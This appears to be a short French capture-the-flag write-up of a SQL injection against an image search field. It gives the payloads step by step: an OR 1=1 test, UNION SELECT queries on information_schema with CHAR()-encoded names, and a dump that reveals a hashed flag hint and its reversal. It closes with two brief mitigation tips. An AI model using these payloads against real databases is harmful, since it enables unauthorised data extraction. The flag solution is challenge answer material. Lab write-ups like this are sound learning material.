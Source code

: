 Recherche une image par number

On teste 1 OR 1=1 → 
ça affiche toutes les images 

On utilise 1 UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema = database() --
On découvre la table : list_images

On utilise 1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name = CHAR(108,105,115,116,95,105,109,97,103,101,115) --
→ On découvre les colonnes : id, url, title, comment

On utilise 1 UNION SELECT comment, 2 FROM list_images --


ID: 1 UNION SELECT comment, title FROM list_images -- 
Title: 2
Url : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


Le hash MD5 est : 1928e8083cf461a51303633093573c46
→ Reverse MD5 : albatroz
→ SHA256 de "albatroz"

Comment l'éviter? 
- Valider les entrées utilisateurs dans le back.
- Les ORM actuels sont protégé contre cela. 


